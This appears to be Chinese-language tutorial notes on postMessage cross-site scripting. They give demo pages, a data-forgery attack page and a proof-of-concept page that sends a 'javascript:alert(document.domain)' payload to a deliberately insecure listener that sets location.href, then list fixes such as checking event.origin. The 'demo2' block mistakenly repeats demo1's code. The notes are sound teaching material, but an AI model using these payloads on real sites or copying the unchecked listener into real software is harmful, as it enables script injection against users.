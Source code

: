 #  PostmessageXSS 漏洞

> ```
> Window.postmessage()方法可以安全地实现Window对象之间的跨源通信;例如，在页面和它派生的弹出窗口之间，或者在页面和其内嵌的iframe之间。
> ```

https://www.cnblogs.com/piaomiaohongchen/p/14727871.html

## 漏洞利用方式

demo1 代码

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
 <meta charset="utf-8" />
<script>
function openChild() {
    child = window.open('demo2.html', 'popup', 'height=300px, width=500px');
}
function sendMessage(){
    //发送的数据内容
    let msg={pName : "jack", pAge: "12"};
    //发送消息数据数据到任意目标源, *指的是任意anyone
    child.postMessage(msg,'*');
}
</script>
</head>
<body>
    <form>
        <fieldset>
            <input type='button' id='btnopen' value='Open child' onclick='openChild();' />
            <input type='button' id='btnSendMsg' value='Send Message' onclick='sendMessage();' />
        </fieldset>
    </form>
</body>
</html>
```

demo2 代码  

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
 <meta charset="utf-8" />
<script>
function openChild() {
    child = window.open('demo2.html', 'popup', 'height=300px, width=500px');
}
function sendMessage(){
    //发送的数据内容
    let msg={pName : "jack", pAge: "12"};
    //发送消息数据数据到任意目标源, *指的是任意anyone
    child.postMessage(msg,'*');
}
</script>
</head>
<body>
    <form>
        <fieldset>
            <input type='button' id='btnopen' value='Open child' onclick='openChild();' />
            <input type='button' id='btnSendMsg' value='Send Message' onclick='sendMessage();' />
        </fieldset>
    </form>
</body>
</html>
```



### 数据伪造

```
<!DOCTYPE html>
<html>
<head>
    <title></title>
 <meta charset="utf-8" />
<script>
childwin = window.open('http://119.45.227.86/postmessage/demo2.html');

function sendMessage(){
    let msg={pName : "attacker", pAge: "16"};
    childwin.postMessage(msg,'*')
}

(function(){setTimeout("sendMessage()",1000);}()); 
</script>
</head>
</html>
```

> demo 1中存在以下代码，可以利用postMessage 传递信息。
>
> ```
> function sendMessage(){
>     //发送的数据内容
>     let msg={pName : "jack", pAge: "12"};
>     //发送消息数据数据到任意目标源, *指的是任意anyone
>     child.postMessage(msg,'*');
> }
> ```
>
> demo 2中存在以下代码，可以接收 postMessage传递过来的信息
>
> ```
> <script>
>         //添加事件监控消息
>     window.addEventListener("message", (event)=>{
>         let txt=document.getElementById("msg");
>         //接收传输过来的变量数据
>         txt.value=`Name is ${event.data.pName} Age is  ${event.data.pAge}` ;
> 
>     });
>     </script>
> ```
>
> 所以demo1 可以调用 PostMessage 接口传递信息，进而修改demo2显示的内容。
>
> 这里要注意两点：
>
> - postMessage 强调的是同一浏览器中页面之间的通讯(通过参数传递)，并不能修改服务器中的内容
> - 漏洞利用首先要打开2个页面(必须要有一个是漏洞网站的)，另外一个可以诱骗受害者点击的

> 利用步骤：
>
> ```
> <!DOCTYPE html>
> <html>
> <head>
>     <title></title>
>  <meta charset="utf-8" />
> <script>
> childwin = window.open('http://119.45.227.86/postmessage/demo2.html');
> 
> function sendMessage(){
>     let msg={pName : "attacker", pAge: "16"};
>     childwin.postMessage(msg,'*')
> }
> 
> (function(){setTimeout("sendMessage()",1000);}()); 
> </script>
> </head>
> </html>
> ```
>
> 执行分2步，首先打开一个子页面（demo2.html），接下来使用postMessage 传递参数，demo2.html中
>
> let txt=document.getElementById("msg"); 会接收我们从attacker.html传递的信息。
>
> (此处实际上是会被浏览器所拦截的(URL跳转)，需要浏览器选择不拦截)

### XSS漏洞

> ​		从数据伪造中可以看到，如果有 window.addEventListener("message", (event)=>这类接收postMessage传递参数的函数，那么就可以构造HTML文件，(此HTML功能第一步是打开可网站可传参的界面，第二步是向其传递参数(js层面))。
>
> 如果addEventListener 接收的**参数**会被一些危险函数(如下文的location.href)执行，是不是就有可能构造出一个反射型XSS呢？
>
> 服务器放入xss.html开始测试
>
> ```
> <!DOCTYPE html>
> <html>
> <head>
>     <title></title>
>     <meta charset="utf-8" />
>     <script>
>     window.addEventListener("message", (event)=>{
>         location.href=`${event.data.url}`;
>     });
>     </script>
> </head>
> </html>
> 
> 
> ```
>
> 
>
> ```
> <!DOCTYPE html>
> <html>
> <head>
>     <title></title>
>  <meta charset="utf-8" />
> <script>
> childwin = window.open('http://119.23.189.100/xss.html');
> 
> function sendMessage(){
>     let msg={url:"javascript:alert(document.domain)"};
>     childwin.postMessage(msg,'*')
> }
> 
> (function(){setTimeout("sendMessage()",1000);}()); 
> </script>
> </head>
> </html>
> ```
>
> ![img](file:///C:\Users\游俊豪\Documents\Tencent Files\1571229403\Image\C2C\%}NEV5Q]QU07~075N8TPNZA.png)
>
> 关闭拦截后，刷新，首先是URL跳转，其次是弹出xss界面。

## 问题一:代码为什么会被执行

> 白帽子利用postMessage传参，通过层层调用链传递到 r.href参数s(通过URL重定向到白帽子的xss网站(x0.nz/q7pm#)),最后进行了弹窗。

## 问题二：是所有Postmessage 接口都会产生此类漏洞么，产生漏洞的条件

> 并不是所有PostMessage接口都存在此漏洞，攻击者要查看前端js代码，看一些特定参数是否可以控制（比如说location.href的参数），然后精心构造Payload。

## 问题三：修复方案

　**1.限制发送目标，禁止使用\***

　　**2.限制接收数据event.origin，使用指定信任域**
